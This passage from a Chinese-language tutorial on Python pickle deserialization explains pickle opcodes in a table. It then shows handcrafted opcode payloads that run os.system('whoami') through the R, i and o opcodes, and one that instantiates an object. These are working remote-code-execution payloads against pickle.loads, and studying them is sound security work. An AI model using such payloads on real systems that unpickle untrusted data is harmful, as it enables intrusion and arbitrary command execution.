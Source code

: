|b|使用栈中的第一个元素（储存多个属性名: 属性值的字典）对第二个元素（对象实例）进行属性设置|b|栈上第一个元素出栈|
|s|将栈的第一个和第二个对象作为key-value对，添加或更新到栈的第三个对象（必须为列表或字典，列表以数字作为key）中|s|第一、二个元素出栈，第三个元素（列表或字典）添加新值或被更新|
|u|寻找栈中的上一个MARK，组合之间的数据（数据必须有偶数个，即呈key-value对）并全部添加或更新到该MARK之前的一个元素（必须为字典）中|u|MARK标记以及被组合的数据出栈，字典被更新|
|a|将栈的第一个元素append到第二个元素(列表)中|a|栈顶元素出栈，第二个元素（列表）被更新|
|e|寻找栈中的上一个MARK，组合之间的数据并extends到该MARK之前的一个元素（必须为列表）中|e|MARK标记以及被组合的数据出栈，列表被更新|import pickle
![[20200320230711-7972c0ea-6abc-1.gif]]

```python
import pickle
opcode=b'''cos
system
(S'whoami'
tR.'''
pickle.loads(opcode)
```

很好理解,首先导入模块`c[moudle]\n[instance]\n`,这里是`os.system`然后压入`MARK`,再讲字符串`whoami`压入栈,字节码为`t`找到上一个`MARK`,合并数据成元祖,通过字节码R执行`os.system('whoami')`,最后的`.`代表程序结束，将栈顶元素`os.system('ls')`作为返回值

#### 三种执行字节码

1. `R`
就是上面的那种

2. `i`：相当于c和o的组合，先获取一个全局函数，然后寻找栈中的上一个MARK，并组合之间的数据为元组，以该元组为参数执行全局函数（或实例化一个对象）

    ```python
    opcode=b'''(S'whoami'
    ios
    system
    .'''
    ```

3. `o`：寻找栈中的上一个MARK，以之间的第一个数据（必须为函数）为callable，第二个到第n个数据为参数，执行该函数（或实例化一个对象）

```python
opcode=b'''(cos
system
S'whoami'
o.'''
```

部分Linux系统下和Windows下的opcode字节流并不兼容，比如Windows下执行系统命令函数为`os.system()`，在部分Linux下则为`posix.system()`。

#### 实例化对象

```python
opcode=b'''c__main__
Person
(I18
S'Pickle'
tR.'''
```
